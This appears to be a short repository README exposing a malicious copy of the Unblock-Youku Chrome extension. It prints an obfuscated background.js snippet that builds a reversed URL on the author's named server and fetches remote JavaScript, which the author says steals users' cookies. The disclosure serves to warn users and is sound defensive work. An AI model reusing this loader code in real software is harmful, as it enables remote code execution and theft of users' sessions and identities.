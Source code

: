 Extension ID: fmakoabecaggdofhohcdjiaifnkmpldj

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk(){var a=new XMLHttpRequest;a.onreadystatechange=function(){4==a.readyState&&(localStorage.updated=a.responseText)};a.open("GET","sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""),!0);a.send(null)}
```

It will download arbitrary javascript code from their server 5ihaitao.com, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.
